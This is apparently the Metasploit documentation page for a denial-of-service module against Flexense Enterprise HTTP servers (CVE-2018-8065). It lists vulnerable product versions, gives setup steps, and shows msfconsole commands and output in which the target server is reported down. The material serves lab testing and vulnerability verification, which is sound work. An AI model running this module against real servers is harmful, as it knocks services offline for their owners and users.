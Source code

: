 ## Vulnerable Application

### Description

This module triggers a Denial of Service vulnerability in the Flexense Enterprise HTTP server. It is possible to trigger
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.

According To publicly exploit Disclosure of Flexense HTTP Server v10.6.24
Following list of softwares are vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

DiskBoss Enterprise    <= v9.0.18
Sync Breeze Enterprise <= v10.6.24
Disk Pulse Enterprise  <= v10.6.24
Disk Savvy Enterprise  <= v10.6.24
Dup Scout Enterprise   <= v10.6.24
VX Search Enterprise   <= v10.6.24

**Vulnerable Application Link**
http://www.diskboss.com/downloads.html
http://www.syncbreeze.com/downloads.html
http://www.diskpulse.com/downloads.html
http://www.disksavvy.com/downloads.html
http://www.dupscout.com/downloads.html


### Installation Setup.

All Flexense applications that are listed above can be installed by following these steps.

Download Application : ```https://github.com/EgeBalci/Sync_Breeze_Enterprise_10_6_24_-DOS/raw/master/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/flexense_http_server_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios

### WINDOWS 7/10

```
msf5 > use auxiliary/dos/http/flexense_http_server_dos 
msf5 auxiliary(dos/http/flexense_http_server_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 auxiliary(dos/http/flexense_http_server_dos) > set rport 80
rport => 80
msf5 auxiliary(dos/http/flexense_http_server_dos) > run

[*] 192.168.1.20:80 - Triggering the vulnerability
[+] 192.168.1.20:80 - DoS successful 192.168.1.20 is down !
[*] Auxiliary module execution completed

```
